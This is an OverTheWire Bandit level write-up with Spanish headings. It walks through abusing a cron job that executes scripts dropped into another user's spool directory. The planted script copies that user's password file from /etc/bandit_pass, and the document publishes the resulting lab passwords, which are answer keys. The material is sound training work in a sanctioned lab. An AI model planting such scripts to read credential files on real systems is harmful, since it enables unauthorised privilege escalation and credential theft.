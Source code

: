 ## Objetivo

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso
- Puerto: 2220
- Host: bandit.labs.overthewire.org
- Contraseña: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
- Usuario: **bandit23

## Solución

```
bandit23@bandit:~$ ls -la
total 20
drwxr-xr-x  2 root root 4096 Oct  5 06:19 .
drwxr-xr-x 70 root root 4096 Oct  5 06:20 ..
-rw-r--r--  1 root root  220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root root 3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root root  807 Jan  6  2022 .profile
bandit23@bandit:~$ cd /etc/cron.d/
bandit23@bandit:/etc/cron.d$ ls -la
total 56
drwxr-xr-x   2 root root  4096 Oct  5 06:20 .
drwxr-xr-x 106 root root 12288 Oct  5 06:20 ..
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit15_root
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit17_root
-rw-r--r--   1 root root   120 Oct  5 06:19 cronjob_bandit22
-rw-r--r--   1 root root   122 Oct  5 06:19 cronjob_bandit23
-rw-r--r--   1 root root   120 Oct  5 06:19 cronjob_bandit24
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit25_root
-rw-r--r--   1 root root   201 Jan  8  2022 e2scrub_all
-rwx------   1 root root    52 Oct  5 06:20 otw-tmp-dir
-rw-r--r--   1 root root   102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root   396 Feb  2  2021 sysstat
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ which bash
/usr/bin/bash
bandit23@bandit:/etc/cron.d$ cat /var/spool/bandit24/foo
cat: /var/spool/bandit24/foo: Permission denied
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:/etc/cron.d$ cd /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ ls
ls: cannot open directory '.': Permission denied
bandit23@bandit:/var/spool/bandit24/foo$
bandit23@bandit:/var/spool/bandit24/foo$
bandit23@bandit:/var/spool/bandit24/foo$ mkdir /tmp/pass_2024
bandit23@bandit:/var/spool/bandit24/foo$ cd /tmp/pass_2024
bandit23@bandit:/tmp/pass_2024$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/pass_2024$ ls
script.sh
bandit23@bandit:/tmp/pass_2024$ ls -l
total 4
-rw-rw-r-- 1 bandit23 bandit23 69 Feb 26 23:27 script.sh
bandit23@bandit:/tmp/pass_2024$ cat script.sh
#!/bin/bash
cat  /etc/bandit_pass/bandit24 > /tmp/pass_2024/password
bandit23@bandit:/tmp/pass_2024$
bandit23@bandit:/tmp/pass_2024$
bandit23@bandit:/tmp/pass_2024$ touch password
bandit23@bandit:/tmp/pass_2024$ ls
password  script.sh
bandit23@bandit:/tmp/pass_2024$ ls -l
total 4
-rw-rw-r-- 1 bandit23 bandit23  0 Feb 26 23:28 password
-rw-rw-r-- 1 bandit23 bandit23 69 Feb 26 23:27 script.sh
bandit23@bandit:/tmp/pass_2024$ chmod 777 -R /tmp/pass_2024
bandit23@bandit:/tmp/pass_2024$ ls -l
total 4
-rwxrwxrwx 1 bandit23 bandit23  0 Feb 26 23:28 password
-rwxrwxrwx 1 bandit23 bandit23 69 Feb 26 23:27 script.sh
bandit23@bandit:/tmp/pass_2024$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/pass_2024$ cat password
bandit23@bandit:/tmp/pass_2024$ cat password
bandit23@bandit:/tmp/pass_2024$ cat password
bandit23@bandit:/tmp/pass_2024$ cat password
bandit23@bandit:/tmp/pass_2024$ cat password
bandit23@bandit:/tmp/pass_2024$ cat password
bandit23@bandit:/tmp/pass_2024$ cat password
bandit23@bandit:/tmp/pass_2024$ cat password
bandit23@bandit:/tmp/pass_2024$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/pass_2024$
```

## Notas adicionales

A _crontab_ file contains instructions to the **[cron](https://linux.die.net/man/8/cron)**(8) daemon of the general form: "run this command at this time on this date". Each user has their own crontab, and commands in any given crontab will be executed as the user who owns the crontab. Uucp and News will usually have their own crontabs, eliminating the need for explicitly running **[su](https://linux.die.net/man/1/su)**(1) as part of a cron command.

Blank lines and leading spaces and tabs are ignored. Lines whose first non-space character is a pound-sign (#) are comments, and are ignored. Note that comments are not allowed on the same line as cron commands, since they will be taken to be part of the command. Similarly, comments are not allowed on the same line as environment variable settings.

An active line in a crontab will be either an environment setting or a cron command. An environment setting is of the form,

name = value

where the spaces around the equal-sign (=) are optional, and any subsequent non-leading spaces in _value_ will be part of the value assigned to _name_. The _value_ string may be placed in quotes (single or double, but matching) to preserve leading or trailing blanks.

## Referencias

[ls(1) - Linux manual page (man7.org)](https://man7.org/linux/man-pages/man1/ls.1.html)
[cat(1) - Linux manual page (man7.org)](https://man7.org/linux/man-pages/man1/cat.1.html)
[file(1) - Linux manual page (man7.org)](https://man7.org/linux/man-pages/man1/file.1.html)
[find(1) - Linux manual page (man7.org)](https://man7.org/linux/man-pages/man1/find.1.html)

[SSH/OpenSSH/Keys - Community Help Wiki (ubuntu.com)](https://help.ubuntu.com/community/SSH/OpenSSH/Keys)
[cron (Unix) - Wikipedia, la enciclopedia libre](https://es.wikipedia.org/wiki/Cron_(Unix))